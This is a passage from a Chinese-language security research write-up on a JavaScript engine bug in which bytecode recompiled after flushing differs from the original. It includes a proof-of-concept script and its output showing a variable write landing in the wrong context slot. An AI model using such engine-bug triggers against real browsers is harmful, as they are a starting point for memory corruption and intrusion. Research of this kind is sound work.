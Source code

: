 ```javascript
f1();
flush_bytecode();
f1();
```

函数`f1`在flush后的字节码和漏洞修复后的字节码一致，即少了构造Function Context的四条字节码指令。

## 失败的尝试记录

> 此节并不影响后续内容阅读，读者可直接阅读下一节。

实际上我们的研究并非一帆风顺，在构造出实际有用的不一致前，我们花费了大量时间尝试另一种字节码不一致。

最开始观察错误的字节码，其本质上是在Function Context内存储了一个多余的`this`，那么第一个到脑中的想法就是：如果在Function Context还有其他的变量，那么由于两次字节码不一致，若内部函数使用了同样的slot index来访问变量，可能会发生一些非预期的行为。

带着这个想法，构造了以下PoC:

```javascript
function f1() {
  let a0 = 0, a1 = 1;

  function f2() {
    console.log('a0 = ' + a0);
    console.log('a1 = ' + a1);
  }

  function hax() {
    a0 = 0x1337;
  }

  (arg = class AAA {
    static {
      this;
    }
  }) => { }

  hax();
  f2();
  return hax;
}

// keep a reference to hax to make it consistent after flushing
let hax = f1();
flush_bytecode();
console.log('after flush');
f1();
```

输出结果为：

```
a0 = 4919
a1 = 1
after flush
a0 = 0
a1 = 4919
```
